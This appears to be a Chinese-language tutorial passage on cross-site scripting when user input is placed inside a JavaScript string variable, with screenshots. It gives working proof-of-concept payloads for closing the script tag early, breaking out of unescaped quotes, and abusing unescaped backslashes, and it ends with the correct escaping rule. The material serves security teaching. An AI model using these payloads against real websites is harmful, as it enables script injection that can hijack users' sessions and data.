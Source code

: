 ### 注入到 js 变量中（提前闭合 script 标签）

当 XSS 上下文是响应中的一些现有 JavaScript 时，可能会出现各种各样的情况，需要不同的技术来成功利用。

```
<script>
...
var input = 'controllable data here';
...
</script>
```

```
# 使用 </script> 标签提前闭合，导致 JavaScript 代码提前终止。
# 然后你可以在 html 页面上注入任何标签。
</script><img src=1 onerror=alert(document.domain)>
```

![image-20250528152558346](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528152558346.png)

从上述可以看到 js 先解析 script 标签，然后将 script 标签内部视为 js 代码。

### 注入到 js 变量中（没有对引号转义）

##### 注入表达式

当输入单引号时：

![image-20250528153524049](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528153524049.png)

发现抱错，说明没有对单引号转义：

```
'-alert(document.domain)-'
```

![image-20250528153647617](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528153647617.png)

```
var searchTerms = ''-alert(document.domain)-'';

js 将其看作一个减发运算链，alert 作为函数调用发生在表达式运算截断，他将返回 NaN。
```

##### 引号截断变量（注入新的 js 语句）

```
';alert(document.domain);//
```

![image-20250528154231302](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528154231302.png)

### 注入到 js 变量中（对引号进行转义，但是没有对 \ 进行转义）

```
nihao\'
```

![image-20250528155553393](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528155553393.png)

```
nihao\'-alert(1);//
```

![image-20250528160002228](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250528160002228.png)

正确的转义应该确保：

- 每个单引号 `'` 前都添加反斜杠
- 每个反斜杠 `\` 前也添加反斜杠

用户输入的反斜杠 \ 与 截断了转义单引号 ' 的反斜杠，导致反斜杠转义反斜杠，而单引号作为独立存在仍，具有符号功能。